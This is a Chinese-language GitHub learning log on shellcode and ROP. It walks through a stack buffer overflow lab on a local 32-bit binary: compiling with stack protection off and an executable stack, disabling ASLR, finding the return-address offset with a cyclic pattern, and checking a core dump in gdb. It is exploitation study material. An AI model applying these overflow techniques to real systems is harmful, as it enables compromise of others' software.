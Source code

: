 # shellcode_learning
这个日志记录了学习shellcode过程和在学习过程中遇到的问题。<br><br>
主要参考了蒸米的一步一步学ROP，修改了作者的部分错误和一些其他博客。<br><br>

## 配置环境
操作系统：ubuntu16.04 LTS 64位系统（建议不使用ubuntu18,可能使用了更加复杂的地址保护机制，容易导致实验失败）<br>
编译工具：
1. python2 <br>
2. pwntools(py的库函数，安装方法见https://www.cnblogs.com/pcat/p/5451780.html ）<br>
3. objdump <br>
4. ROPgadget<br>

## linux_84

$ gcc -fno-stack-protector -z execstack  -m32 -o level1 level1.c<br>
因为ubuntu16.04是64位系统在编译 -m32 时会报错，因为需要安装安装库文件sudo apt-get install gcc-4.8-multilib g++-4.8-multilib
$ sudo -s
$ echo 0 > /proc/sys/kernel/randomize_va_space
$ exit
$ python pattern.py create 150得到
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
$ gdb ./level1
（gdb)run 得到
Program received signal SIGSEGV, Segmentation fault.
0x37654136 in ?? ()
（gdb）quit
$ python pattern.py offset 0x37654136 得到
hex pattern decoded as: 6Ae7
140
$ ulimit -c unlimited
$ sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'
$ ./level1 得到
ABCDAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
段错误 (核心已转储)
$ gdb level1 /tmp/core.1545029320
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x41414141 in ?? ()
(gdb) x/10s $esp -144
0xffffd000:	"ABCD", 'A' <repeats 140 times>, "\nS\373\367\260\320\377\377"
0xffffd099:	""
$ python exp1.py
